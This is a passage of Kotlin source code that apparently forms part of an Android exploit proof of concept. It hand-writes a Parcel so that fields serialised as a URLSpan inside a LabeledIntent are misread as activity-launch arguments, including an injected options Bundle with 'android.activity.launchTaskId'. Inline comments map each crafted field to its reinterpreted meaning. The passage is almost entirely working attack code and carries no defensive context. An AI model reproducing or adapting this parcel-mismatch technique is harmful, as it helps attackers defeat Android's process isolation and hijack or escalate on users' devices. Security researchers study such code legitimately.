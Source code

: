 ```
          writeInt(11) // TextUtils.URL_SPAN => cookie.1

          run {
            writeInt(fixme(63)) // URLSpan.mURL text len => cookie.2

            // we don't have a valid type ( sb*| sh* ), so no stability is read
            // writeInt(65)  // ? => ?stability

            writeString(null) //  URLSpan.mURL.chars.01 => resultWho(null)
            writeInt(77) // URLSpan.mURL.chars.23 => requestCode
            writeInt(88) // URLSpan.mURL.chars.45 => flags
            writeInt(0) // URLSpan.mURL.chars.67 => profilerInfo(null)
            run {
              writeInt(1) // URLSpan.mURL.chars.89 => options != null

              writeInt(fixme(172)) //  URLSpan.mURL.chars.1.01  =>  back patch length
              writeInt(Const.BundleMagic)  // URLSpan.mURL.chars.1.23 => 'B' 'N' 'D' 'L'
              writeInt(2) // URLSpan.mURL.chars.1.45 => entry count

              // URLSpan.mURL.chars going on ...
              writeString("android.activity.launchTaskId") //  key 1
              writeValue(taskId) // value 1
              writeString("_") // key 2
              run {  // value 2
                writeInt(Const.ValByteArray) // VAL_BYTEARRAY
                writeInt(fixme(80)) // byte array length
                writeInt('@'.code) //  0 <-- byte array content start here
                writeInt(0) // <--- URLSpan.mURL.chars ends here with terminator
              }
            }

            // byte array content going on ...
            writeInt(1) // span.start
            writeInt(2) // span.end
            writeInt(3) // span.flags
            writeInt(0) // end flag
          }

          // byte array content going on ...
          writeInt(0) // Icon
        }

        val labeled = Parcel.obtain().apply {
          appendFrom(intent, 0, intent.dataSize())
          appendFrom(tail, 0, tail.dataSize())
        }

        labeled.setDataPosition(0)
        return LabeledIntent.CREATOR.createFromParcel(labeled)
      }
```
